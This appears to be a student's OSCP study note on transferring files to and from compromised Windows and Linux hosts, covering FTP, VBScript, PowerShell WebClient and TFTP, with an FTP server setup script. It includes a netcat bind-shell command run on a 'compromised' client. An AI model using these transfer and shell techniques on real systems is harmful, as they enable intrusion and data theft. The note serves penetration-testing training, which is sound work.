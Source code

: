 16.2.1.create a txt file in windows which initialize ftp connection with kali machine and downlad the file

16.2.2.creation of wget.vbsscript that acts as a simple HTTP downloader
  which downlaod files from kali machine
  
• if ftp not available usefull
• if powershell available also it is done 

16.2.3.cchange netcat as binary file and transferring into victim(windows shell) then executing.

16.2.4.tftp,ftp not available we can use the System.Net.WebClient PowerShellclass to upload data to our Kali machine through an HTTP POST request.

16.2.5.VBScript and the FTP client are present and will work ; setup tftp another method;windows powershell not available.

Summary2


1. Install ftp server

sudo apt update && sudo apt -y install pure-ftpd


• Create user in ftpd server
• This script will automate the user creation

kali@kali:~$ cat ./setup-ftp.sh
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd

• it creates relevant group and user
• configure folder permission
• restart the server

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/50.jpg)


2.The Non iNteractive shell

• ftp login

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/51.jpg)

• listening on compromised debian client
• obtained access to a Netcat bind shell

student@debian:~$ nc -lvnp 4444 -e /bin/bash
listening on [any] 4444 ...

